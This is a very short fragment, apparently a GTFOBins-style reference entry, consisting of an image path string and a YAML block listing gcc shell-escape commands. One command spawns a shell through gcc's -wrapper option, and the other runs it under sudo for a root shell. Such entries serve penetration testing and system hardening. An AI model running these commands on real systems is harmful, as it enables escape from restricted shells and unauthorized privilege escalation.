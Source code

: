 ```yaml
---
functions:
  shell:
    - code: gcc -wrapper /bin/sh,-s .
  sudo:
    - code: sudo gcc -wrapper /bin/sh,-s .
---
```

